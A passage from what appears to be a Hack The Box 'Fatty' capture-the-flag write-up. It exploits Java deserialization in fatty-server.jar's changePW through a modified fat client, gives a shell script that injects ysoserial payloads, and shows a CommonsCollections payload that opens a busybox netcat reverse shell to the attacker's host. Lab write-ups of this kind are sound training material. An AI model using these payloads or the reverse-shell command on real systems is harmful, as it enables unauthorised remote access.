 ## Low-Privileged Shell

Now what?

...

Scanning the class files of `fatty-server.jar`, you'll spot a classic Java deserialization vulnerability in `Commands.changePW()`.

{% include image.html image_alt="bd8c59b0.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/bd8c59b0.png" %}

But soon you'll discover that the corresponding `changePW` functionality is not implemented in the fat client. :angry:

{% include image.html image_alt="bc42db15.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/bc42db15.png" %}

Fret not, we can implement it ourselves in `ClientGuiTest.class` like so.

{% include image.html image_alt="c52bbb82.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/c52bbb82.png" %}

Comment out the old line and add the code highlighted in red above. In addition to that, we also need to modify `Invoker.changePW()` like so.

{% include image.html image_alt="288ae591.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/288ae591.png" %}

### Y so serial?

To help myself in testing out different `ysoserial` payloads, I wrote the following shell script.

<div class="filename"><span>exploit.sh</span></div>

```
#!/bin/bash


INJECT=htb/fatty/client/gui/ClientGuiTest.java
BACKUP=${INJECT}.in
PAYLOAD="$(ysoserial "$@" 2>&1 | sed '1d' | base64 -w0)"

sed -r -e "s|base64-encoded payload here|${PAYLOAD}|" $BACKUP > $INJECT

javac $INJECT

./build.sh
```

It's evident that the Apache Commons is used in `fatty-server.jar`. Long story short, the `ysoserial` payload is `CommonsCollection5` and the command I use is:

```
# ./exploit.sh CommonsCollections 'busybox nc 10.10.x.x 1234 -e /bin/sh'
```

You might ask, how did I know I need use `busybox`? Earlier on, I ran the `uname` command in the fat client and saw that it's a Docker container. Also, navigating around the menu items in the fat client revealed that it's a alpine image.
